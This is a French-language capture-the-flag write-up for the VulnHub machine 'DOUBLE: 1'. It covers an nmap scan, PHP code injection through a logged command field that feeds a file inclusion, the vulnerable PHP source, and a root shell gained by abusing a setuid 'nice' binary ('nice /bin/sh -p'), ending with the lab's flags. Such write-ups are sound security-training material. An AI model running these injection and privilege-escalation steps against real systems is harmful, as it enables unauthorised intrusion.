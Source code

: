 ```yaml
---
title: "Solution du CTF DOUBLE de VulnHub"
tags: [CTF,VulnHub]
---
```


[DOUBLE: 1](https://vulnhub.com/entry/double-1,632/) est un CTF proposé par *foxlox* sur VulnHub.

```
Nmap scan report for 192.168.56.48
Host is up (0.00028s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: shredder.calipendu.la, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
| ssl-cert: Subject: commonName=shredder.calipendu.la
| Subject Alternative Name: DNS:shredder.calipendu.la
| Not valid before: 2020-10-10T14:59:42
|_Not valid after:  2030-10-08T14:59:42
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.38 (Debian)
8080/tcp open  http    Apache httpd 2.4.38
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=HU?
|_http-server-header: Apache/2.4.38 (Debian)
```

On voit que le certificat ratatché au port 25 correspond à un DNS spécifique.

Il convient peut être de rajouter une entrée dans notre fichier */etc/hosts* si jamais le serveur web utilise un hôte virtuel spécifique. On peut tester cela avec cURL en passant directement le bon entête :

```bash
$ curl -H "Host: shredder.calipendu.la" http://192.168.56.48/

<center>
<h2>SSCS 0.3b - Super Secure Command Send</h2>

<a href=/production>Production</a> - <a href=http://192.168.56.48:8080/>TEST</a>
```

On va donc rajouter l'entrée avant d'aller plus loin :)

Quand on suit le lien Production on arrive sur un formulaire demandant une commande ainsi qu'un code.

A la soumission on est redirigé vers une page avec ce qui semble être des lignes de log où je retrouve ma commande :

`2022-11-06 07:52:26-192.168.56.1 - ls`

Comme la saisie de commandes bash ne semble pas avoir d'inpact je tente de passer du code PHP (`<?php phpinfo(); ?>`)dans le champ commande et cette fois il semble bien exécuté (extrait du phpinfo affiché) :

| SERVER_SOFTWARE       | Apache/2.4.38 (Debian)                   |
| --------------------- | ---------------------------------------- |
| SERVER_NAME           | shredder.calipendu.la                    |
| SERVER_ADDR           | 192.168.56.48                            |
| SERVER_PORT           | 80                                       |
| REMOTE_ADDR           | 192.168.56.1                             |
| DOCUMENT_ROOT         | /var/www/html                            |
| REQUEST_SCHEME        | http                                     |
| CONTEXT_PREFIX        | *no value*                               |
| CONTEXT_DOCUMENT_ROOT | /var/www/html                            |
| SERVER_ADMIN          | webmaster@localhost                      |
| SCRIPT_FILENAME       | /var/www/html/production/sendcommand.php |

On réitère l'opération cette fois avec un appel à la fonction `system()` qui nous permettra d'uploader et exécuter un reverse-ssh.

Une fois dans la VM on peut lire le code PHP vulnérable :

```php
Ask to admin to update config: set production=1<br><br>
<hr>
<?php
$cmd=$_POST['command'];
$controlcode=$_POST['controlcode'];
$fd=fopen("out","a");
fputs($fd,date('Y-m-d h:i:s')."-".$_SERVER['REMOTE_ADDR']." - ".$cmd."\r\n");
fclose($fd);

ini_set("display_errors",1);
$out=$_GET['out'];
echo "<pre>";
include $out;
?>
```

A la racine web je trouve un dossier appartenant à l'utilisateur *fox* mais je n'ai pas les droits nécessaires pour y accéder :

```bash
www-data@double:/var/www/html$ ls
total 20
drwxr-xr-x 4 root     root     4096 Nov  2  2020 .
drwxr-xr-x 3 root     root     4096 Nov  2  2020 ..
-rw-r--r-- 1 root     root      184 Nov  2  2020 index.php
drwxr-xr-x 2 www-data www-data 4096 Nov  6 19:59 production
drwxr-x--- 2 fox      nogroup  4096 Nov  2  2020 wasedrcftgvybhujnmbvtgcr
www-data@double:/var/www/html$ ls wasedrcftgvybhujnmbvtgcr
ls: cannot open directory 'wasedrcftgvybhujnmbvtgcr': Permission denied
```

## This is nice

Je continue du fouiller. Le système ne dispose pas de sudo mais je remarque quelque chose d'anormal au niveau des finaires setuid. La commande *nice* ne devrait pas figurer dans cette liste. L'objectif de cet exécutable est de lancer un programme en spécifiant sa priorité d'exécution (du point de vue CPU). On peut donc l'exploiter pour lancer un shell avec euid 0 :

```bash
www-data@double:/var/www/html$ find / -type f -perm -u+s 2> /dev/null 
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/su
/usr/bin/nice
/usr/bin/chfn
/usr/sbin/chroot
/usr/sbin/chpasswd
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
www-data@double:/var/www/html$ ls -al /usr/bin/nice
-rwsr-sr-x 1 root root 39552 Feb 28  2019 /usr/bin/nice
www-data@double:/var/www/html$ nice /bin/sh -p
# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
proof.txt
# cat proof.txt 
c5315567687fe0e182bb87564ab54a7a
# cd /home/fox
# ls -al
total 24
drwxr-xr-x 2 fox  fox  4096 Dec  3  2020 .
drwxr-xr-x 4 root root 4096 Dec  3  2020 ..
lrwxrwxrwx 1 root root    9 Dec  3  2020 .bash_history -> /dev/null
-rw-r--r-- 1 fox  fox   220 Apr 18  2019 .bash_logout
-rw-r--r-- 1 fox  fox  3526 Apr 18  2019 .bashrc
-rw-r--r-- 1 fox  fox   807 Apr 18  2019 .profile
-rw------- 1 fox  fox    33 Dec  3  2020 local.txt
# cat local.txt
beef4039b5e78a23e80aa6560b93f429
```


